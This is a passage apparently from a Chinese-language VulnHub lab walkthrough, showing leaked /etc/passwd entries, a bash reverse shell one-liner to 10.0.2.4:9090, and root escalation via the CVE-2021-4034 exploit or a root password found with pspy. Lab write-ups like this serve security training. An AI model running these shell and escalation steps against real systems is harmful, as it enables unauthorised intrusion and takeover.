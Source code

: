 > joe:x:1000:1000:joe,,,:/home/joe:/bin/bash
>
>  jack:x:1001:1001:,,,:/home/jack:/bin/bash
>
>  chuck:x:1002:1002:,,,:/home/chuck:/bin/bash 
>
> susan:x:1003:1003:,,,:/home/susan:/bin/bash 

**反弹shell**

`bash -c '/bin/bash -i >& /dev/tcp/10.0.2.4/9090 0>&1'`

![image-20220824143957358](vulnhub靶场.assets/image-20220824143957358.png)







## **权限提升**

**方法一**

>  **CVE-2021-4034脚本可以直接提权成功**

**方法二**



pspy程序扫描出 一个异常文件

![image-20220824164713934](vulnhub靶场.assets/image-20220824164713934.png)

> base64:
>
> -u root -p rfvbgt!!

知道账号密码 ，直接su 提权成功

![image-20220824164951223](vulnhub靶场.assets/image-20220824164951223.png)
